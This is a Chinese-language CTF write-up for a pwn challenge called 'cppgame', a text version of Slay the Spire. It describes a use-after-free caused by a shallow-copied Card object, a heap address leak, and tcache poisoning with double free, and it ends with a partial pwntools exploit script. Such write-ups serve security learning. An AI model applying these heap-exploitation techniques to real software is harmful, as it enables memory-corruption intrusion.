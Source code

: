 # cppgame

最佳题目，趣味和挑战性并存，并告诉玩家不当观批就不会打pwn的深刻道理  
第一，我不玩塔

题目就是文字版的《杀戮尖塔》，稍微了解C++即可发现漏洞点在于Card类没有拷贝构造函数，在拷贝时会发生浅拷贝，如果调用其中一个对象的析构函数，就会留下悬空指针

虽然源码中没有写出，但手动fuzz并查阅汇编后发现dispaly函数的结尾会delete card并调用析构函数，由于前面发生了浅拷贝，这里会使得原先card的description实际已经释放但仍然可以访问

另外一个漏洞点在于display函数(又是你)输出name是以null作为截断的，如果将name填满，自然会输出之后的description指针，从而达成堆地址的泄露

这两个漏洞组合之后，我们可以改tcache fd从而任意地址分配，也可以double free构造指向同一块内存的指针，再结合vector保存在堆上的指针，我们可以在堆上七进七出了。但最大的问题是，我们只有堆的地址，而保存在堆上的只有卡牌对象。玩家，怪物这些对象全部保存在bss上，导致很难达成一刀999的效果。怪物1337血，还每两回合攻击力翻倍，不开挂，我怎么玩？

在我一筹莫展之际，向身边的塔批朋友分享了我的处境，随后的十分钟里，观者玩家的智慧以一种粗暴的方式射进了我的大脑：你不是能改卡组吗，先这样，再那样，然后你就能转起来了。

我：？？？

改牌的方式操作起来不难，由于description的大小刚好是0x80，与vector扩容两次之后的大小一致，构造一个double free并随后让vector和description指向同一个地方，然后在一次修改操作里同时完成泄露地址、伪造卡牌和伪造指针的过程。为了节约空间我把卡牌压缩在了一起，现在想来由于type是32位大小，其实还有压缩的空间。  
开挂的exp如下：

```python
from pwn import*  
import os  
  
context(os = 'linux', arch = 'i386', log_level = 'info', terminal = ['tmux', 'new-window'])  
  
def debug(cmd = ''):  
	if len(sys.argv)!=1:  
		return  
	cmd += """  
	b main  
	bp 0x2a2d  
	"""  
	gdb.attach(p, cmd)  
	pause()  
  
def menu():  
  p.recvuntil(b"Your choice:")  
  
def buy(idx):  
  menu()  
  p.sendline(b"1")  
  p.recvuntil(b"which card do you want to buy?\n")  
  p.sendline(str(idx).encode())  
  
def upgrade(idx):  
  menu()  
  p.sendline(b"2")  
  p.recvuntil(b"Input card index:\n")  
  p.sendline(str(idx).encode())  
  p.recvuntil("Your new card name:\n")  
  p.send(b"\x90" * 0x10)  
  p.recvuntil(b"\x90" * 0x10)  
  leak = u64(p.recvn(6).ljust(8, b"\x00"))  
  heapbase = leak - 0x120a0  
  log.success(hex(leak))  
  log.success(hex(heapbase))  
  p.recvuntil(b":\n")  
  payload = p64(leak + 0x50)*2 + p64(leak + 0x58)*2 + p64(leak + 0x60)*7  
  payload = payload.ljust(11, b"\x00") + b"V".ljust(0x8, b"\x00") + b"R".ljust(0x8, b"\x00")  
  payload += p64(3) + p64(4) + p64(5)  
  p.send(payload)  
  
```